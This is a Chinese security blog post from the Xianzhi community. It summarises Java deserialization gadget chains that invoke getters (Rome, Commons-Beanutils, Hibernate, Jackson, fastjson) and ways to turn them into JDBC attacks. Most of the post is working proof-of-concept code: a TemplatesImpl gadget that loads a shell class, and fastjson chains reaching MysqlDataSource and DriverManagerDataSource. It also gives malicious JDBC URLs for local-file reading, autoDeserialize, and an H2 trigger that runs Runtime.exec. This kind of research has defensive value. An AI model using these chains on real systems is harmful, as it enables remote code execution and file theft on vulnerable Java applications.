# 深入解析 Getter 方法的安全风险：源点调用与 JDBC 攻击-先知社区

> **来源**: https://xz.aliyun.com/news/17362  
> **文章ID**: 17362

---

从 getter 到 JDBC 的调用总结

## 前言

getter 方法也是我们熟悉的老朋友了，因为 source 点调用 getter 的非常非常常见，而且 jdbc 的攻击方法也是很妙，这里对见过的做一个总结

## 如何触发 getter

如何触发 getter 方法呢？这个就太多了，简单举一些常见的例子

### Rome 反序列化

需要依赖

```
<dependencies>
    <dependency>
        <groupId>rome</groupId>
        <artifactId>rome</artifactId>
        <version>1.0</version>
    </dependency>
</dependencies>

```

代码例子

这里以常见的 TemplatesImpl 为例子

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Bad {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();
        byte[] bytecodes = Files.readAllBytes(Paths.get("F:\IntelliJ IDEA 2023.3.2\javascript\Rome\target\classes\shell.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {bytecodes});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());
        ToStringBean toStringBean=new ToStringBean(Templates.class,templatesimpl);
        javax.management.BadAttributeValueExpException badAttributeValueExpException=new javax.management.BadAttributeValueExpException(toStringBean);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

我们简单调试分析一下

调用栈

```
getOutputProperties:506, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
<init>:59, BadAttributeValueExpException (javax.management)
main:20, Bad
```

关键在于 ToStringBean 类



获取我们的对象后进行进入 toString 方法

  
循环调用它的 getter 方法



### CB 链子

需要

```
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.2</version>
</dependency>

```

调用栈

```
getOutputProperties:506, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeMethod:2116, PropertyUtilsBean (org.apache.commons.beanutils)
getSimpleProperty:1267, PropertyUtilsBean (org.apache.commons.beanutils)
getNestedProperty:808, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:884, PropertyUtilsBean (org.apache.commons.beanutils)
getProperty:464, PropertyUtils (org.apache.commons.beanutils)
compare:163, BeanComparator (org.apache.commons.beanutils)
siftDownUsingComparator:721, PriorityQueue (java.util)
siftDown:687, PriorityQueue (java.util)
heapify:736, PriorityQueue (java.util)
readObject:796, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1185, ObjectStreamClass (java.io)
readSerialData:2345, ObjectInputStream (java.io)
readOrdinaryObject:2236, ObjectInputStream (java.io)
readObject0:1692, ObjectInputStream (java.io)
readObject:508, ObjectInputStream (java.io)
readObject:466, ObjectInputStream (java.io)
main:38, CB1 (org.example)
```

关键点在于 compare:163, BeanComparator (org.apache.commons.beanutils)

```
public int compare( T o1, T o2 ) {

    if ( property == null ) {
        // compare the actual objects
        return internalCompare( o1, o2 );
    }

    try {
        Object value1 = PropertyUtils.getProperty( o1, property );
        Object value2 = PropertyUtils.getProperty( o2, property );
        return internalCompare( value1, value2 );
    }
    catch ( IllegalAccessException iae ) {
        throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
    }
    catch ( InvocationTargetException ite ) {
        throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
    }
    catch ( NoSuchMethodException nsme ) {
        throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
    }
}
```





最后反射调用


### Hibernate 反序列化

这个依赖比较少见

```
<dependency>
    <groupId>org.hibernate</groupId>
    <artifactId>hibernate-core</artifactId>
    <version>5.6.11.Final</version>
</dependency>

```

漏洞在于这个组件中有一个类

BasicPropertyAccessor



我们看到比如拿我们的 getter 方法为例，看到

getGetter--->createGetter--->getGetterOrNull---> getterMethod

可以看到就是获取全部的 getter 方法



之后触发点在他的静态类的



### jackson 原生反序列化

原理参考<https://xz.aliyun.com/t/12509?time__1311=GqGxuCG%3DnDlr%3DiQGkQcoGImO7DgmYoD>

主要利用的是 POJONode 的 toString 方法

```
toString -> InternalNodeMapper #nodeToString -> ObjectWriter.writeValueAsString
```

主要这个代码我们看不到，也没有什么好调试的

### fastjson 原生

其实和 jackson 差不多，用的是 json 的 toJSONString 方法，都差不多

## JDBC 的利用

### MysqlDataSource

加入我们的 mysql 依赖

```
<dependency>
  <groupId>mysql</groupId>
  <artifactId>mysql-connector-java</artifactId>
  <version>5.1.47</version>
</dependency>

```

POC 如下

```
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

import com.mysql.jdbc.jdbc2.optional.MysqlDataSource;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }


    public static void main(String[] args) throws Exception{

        String jdbc = "jdbc:mysql://127.0.0.1:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&maxAllowedPacket=655360";
        MysqlDataSource dataSource = new MysqlDataSource();
        dataSource.setUrl(jdbc);
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(dataSource);
        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);
        HashMap hashMap = new HashMap();
        hashMap.put(dataSource,bd);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();


    }
}
```

这里是直接用<https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/的fastjson的原生改的>

首先生成一个 dns 之后的 base64 编码后的数据



然后启动 fakemysql



运行代码  


成功

简单的调试分析一下

首先是从 getter 到我们的 getConnection 方法

```
getConnection:124, MysqlDataSource (com.mysql.jdbc.jdbc2.optional)
getConnection:107, MysqlDataSource (com.mysql.jdbc.jdbc2.optional)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
get:451, FieldInfo (com.alibaba.fastjson.util)
getPropertyValueDirect:110, FieldSerializer (com.alibaba.fastjson.serializer)
write:196, JavaBeanSerializer (com.alibaba.fastjson.serializer)
write:126, ListSerializer (com.alibaba.fastjson.serializer)
write:275, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:799, JSON (com.alibaba.fastjson)
toString:793, JSON (com.alibaba.fastjson)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:33, Test
```

先是获取我们传入的参数

```
public Connection getConnection(String userID, String pass) throws SQLException {
    Properties props = new Properties();
    if (userID != null) {
        props.setProperty("user", userID);
    }

    if (pass != null) {
        props.setProperty("password", pass);
    }

    this.exposeAsProperties(props);
    return this.getConnection(props);
}
```

然后进入重写的 getConnection 方法

```
protected Connection getConnection(Properties props) throws SQLException {
    String jdbcUrlToUse = null;
    if (!this.explicitUrl) {
        StringBuilder jdbcUrl = new StringBuilder("jdbc:mysql://");
        if (this.hostName != null) {
            jdbcUrl.append(this.hostName);
        }

        jdbcUrl.append(":");
        jdbcUrl.append(this.port);
        jdbcUrl.append("/");
        if (this.databaseName != null) {
            jdbcUrl.append(this.databaseName);
        }

        jdbcUrlToUse = jdbcUrl.toString();
    } else {
        jdbcUrlToUse = this.url;
    }

    Properties urlProps = mysqlDriver.parseURL(jdbcUrlToUse, (Properties)null);
    if (urlProps == null) {
        throw SQLError.createSQLException(Messages.getString("MysqlDataSource.BadUrl", new Object[]{jdbcUrlToUse}), "08006", (ExceptionInterceptor)null);
    } else {
        urlProps.remove("DBNAME");
        urlProps.remove("HOST");
        urlProps.remove("PORT");
        Iterator<Object> keys = urlProps.keySet().iterator();

        while(keys.hasNext()) {
            String key = (String)keys.next();
            props.setProperty(key, urlProps.getProperty(key));
        }

        return mysqlDriver.connect(jdbcUrlToUse, props);
    }
}
```

可以看见最后调用了 mysqlDriver.connect 触发了我们的 jdbc 的连接

```
protected Connection getConnection(Properties props) throws SQLException {
    String jdbcUrlToUse = null;
    if (!this.explicitUrl) {
        StringBuilder jdbcUrl = new StringBuilder("jdbc:mysql://");
        if (this.hostName != null) {
            jdbcUrl.append(this.hostName);
        }

        jdbcUrl.append(":");
        jdbcUrl.append(this.port);
        jdbcUrl.append("/");
        if (this.databaseName != null) {
            jdbcUrl.append(this.databaseName);
        }

        jdbcUrlToUse = jdbcUrl.toString();
    } else {
        jdbcUrlToUse = this.url;
    }

    Properties urlProps = mysqlDriver.parseURL(jdbcUrlToUse, (Properties)null);
    if (urlProps == null) {
        throw SQLError.createSQLException(Messages.getString("MysqlDataSource.BadUrl", new Object[]{jdbcUrlToUse}), "08006", (ExceptionInterceptor)null);
    } else {
        urlProps.remove("DBNAME");
        urlProps.remove("HOST");
        urlProps.remove("PORT");
        Iterator<Object> keys = urlProps.keySet().iterator();

        while(keys.hasNext()) {
            String key = (String)keys.next();
            props.setProperty(key, urlProps.getProperty(key));
        }

        return mysqlDriver.connect(jdbcUrlToUse, props);
    }
}
```



### DriverManagerDataSource

需要 com.mchange:mchange-commons-java

POC

```
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

import com.mchange.v1.db.sql.DriverManagerDataSource;
import com.mysql.jdbc.jdbc2.optional.MysqlDataSource;
import common.Util;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        String calc = "//javascript
java.lang.Runtime.getRuntime().exec("calc")";
        String jdbc = "jdbc:h2:mem:;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ calc +"'";
        String jdbc1 ="jdbc:mysql://127.0.0.1:62609/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CUSTOM";
        DriverManagerDataSource dataSource=new DriverManagerDataSource(jdbc,"","");
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(dataSource);
        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd,"val",jsonArray);
        HashMap hashMap = new HashMap();
        hashMap.put(dataSource,bd);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();


    }
}
```

```
getConnection:664, DriverManager (java.sql)
getConnection:208, DriverManager (java.sql)
getConnection:74, DriverManagerDataSource (com.mchange.v1.db.sql)
write:-1, ASMSerializer_1_DriverManagerDataSource (com.alibaba.fastjson.serializer)
write:126, ListSerializer (com.alibaba.fastjson.serializer)
write:275, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:799, JSON (com.alibaba.fastjson)
toString:793, JSON (com.alibaba.fastjson)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
readObject:1396, HashMap (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
